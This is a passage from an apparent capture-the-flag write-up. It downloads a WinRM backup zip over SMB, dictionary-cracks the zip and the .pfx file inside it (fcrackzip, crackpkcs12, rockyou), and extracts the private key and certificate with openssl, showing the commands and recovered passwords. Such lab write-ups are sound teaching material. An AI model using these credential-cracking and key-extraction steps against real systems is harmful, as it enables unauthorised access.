 `winrm_backup.zip` looked interesting, so I downloaded the file and tried to unzip it. What is WinRM? Windows Remote Management, aka SSH for Windows.

```console
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (3.1 KiloBytes/sec) (average 3.1 KiloBytes/sec)
$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
```
The zip file requires a password, so I attempted to crack it using `fcrackzip`

## Crack Passwords

```console
$ fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt winrm_backup.zip

PASSWORD FOUND!!!!: pw == supremelegacy

$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
  inflating: legacyy_dev_auth.pfx
```

A .pfx file (Personal Information Exchange file), which is in a PKCS#12 format, contains the SSL certificate (public keys) and the corresponding private keys. It is possible to extract the public and private key from this file if we have the import password. [^1]

I found a tool called [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) to crack the import password. Not sure why it segfaulted in the end, but it found the password!

```console
$ crackpkcs12 -d rockyou.txt -v legacyy_dev_auth.pfx

Dictionary attack - Starting 8 threads

*********************************************************
Dictionary attack - Thread 3 - Password found: thuglegacy
*********************************************************

[1]    8829 segmentation fault  crackpkcs12 -d rockyou.txt -v legacyy_dev_auth.pfx
```

Then I extracted the public and private keys with the password `thuglegacy`. [^2]

```console
$ # Export private key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy-priv.pem -nodes
Enter Import Password:

$ # Export public key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem
Enter Import Password:
```


[^1]: https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
[^2]: https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/
[^3]: https://itconnect.uw.edu/wares/msinf/ous/laps/
[^4]: https://smarthomepursuits.com/export-laps-passwords-powershell/